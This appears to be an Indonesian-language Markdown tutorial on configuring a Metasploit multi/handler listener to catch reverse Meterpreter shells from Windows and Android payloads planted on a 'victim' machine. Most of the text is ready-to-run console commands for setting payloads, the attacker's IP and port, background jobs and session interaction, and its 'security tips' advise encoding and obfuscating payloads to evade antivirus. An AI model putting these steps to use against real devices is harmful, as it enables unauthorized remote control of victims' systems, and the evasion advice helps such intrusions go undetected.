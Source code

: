 # Membuat Listener dengan `multi/handler`

## A. Apa itu `exploit/multi/handler`?

`multi/handler` adalah modul di Metasploit yang berfungsi sebagai listener untuk menerima koneksi balik (reverse connection) dari payload yang sudah ditanamkan ke target.

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

### 1. Jalankan Metasploit Framework

```
msfconsole
```

### 2. Pilih Modul multi/handler

```
use exploit/multi/handler
```

### 3. Tentukan Payload yang Sesuai

Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

```
set PAYLOAD windows/meterpreter/reverse_tcp

```

### 4. Atur IP dan Port Listener

```
set LHOST 192.168.1.100
set LPORT 4444
```

- **LHOST**: IP attacker (listener)
- **LPORT**: Port tempat menerima koneksi

### 5. (Opsional) Atur Auto-Run Script setelah koneksi

```
set AutoRunScript post/windows/manage/migrate
```

### 6. Jalankan Listener

```
run
```

Atau bisa juga:

```
exploit
```

## C. Contoh Lengkap: Listener untuk Payload Windows

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 1234
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j
```

- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

## F. Melihat Job Listener Aktif

```
jobs
```

## G. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i 1
```

## H. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (public IP/VPN/local sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## I. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | `IP/Port` salah | Pastikan `LHOST/LPORT` sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan `-e` encoder di `msfvenom` |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |
